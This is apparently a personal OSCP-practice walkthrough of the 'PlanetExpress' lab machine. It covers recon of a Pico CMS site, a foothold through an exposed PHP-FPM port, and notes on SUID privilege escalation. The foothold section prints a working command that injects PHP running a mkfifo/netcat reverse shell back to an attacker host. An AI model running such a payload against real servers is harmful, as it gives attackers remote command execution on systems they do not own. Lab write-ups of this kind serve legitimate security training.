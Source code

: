 # PlanetExpress Walkthrough
Name: PlanetExpress
Date:  22/09/2022
Difficulty:  Easy
Goals:  OSCP Prep 1/5 machines a day testing (can use walkthrough)
Learnt: 
- `/usr/share/seclists/Discovery/Web-Content/quickhits.txt`
- I need make a dictionary of wordlists and flowchart of wordlists per situation - Instill questions of methodology
- Metacognitive Linux enlightment through SUID exploit that was more than just a GTFObins  

Had a rough day so my recon not very well as I tripped up recursively thinking about how my recon was doing, but feroxbuster had already found the /.git that has the vulnerable Pico (had the github opne) and I already searchsploited; so really my attitude and the lack of personal mentalised cleaning of previous events of the day really busted this one.  I also did not connect PHP -> PIco therefore varient of phpmyadmin.php

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

Pico CMS Version - ?

![](csrf.png)

![950](fh5co-header-subscribe.png)

This is where I tripped up. I did not patiently check the source of Pico for the config directory.

![](config-yml.png)

## Exploit && Foothold
[Fastcgi PHP-FPM Client && Code Execution](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75)
```bash
# Has to be port 80
python3 fpm.py -c "<?php passthru('rm -f /tmp/x; mkfifo /tmp/x; /bin/sh -c \"cat /tmp/x | /bin/sh -i 2>&1 | nc $LHOST 80 > /tmp/x\"'); ?>" -p 9000 $target-ip /var/www/html/planetexpress/plugins/PicoTest.php
# The first flag
cat /home/astro/local.txt
```

## PrivEsc

Ran LinEnum.sh and some manual PrivEsc commands, had a more metacognitive moment of connecting file permissions - binary - suid bit and as followed the walkthrough explore how to think about the suid binary exploit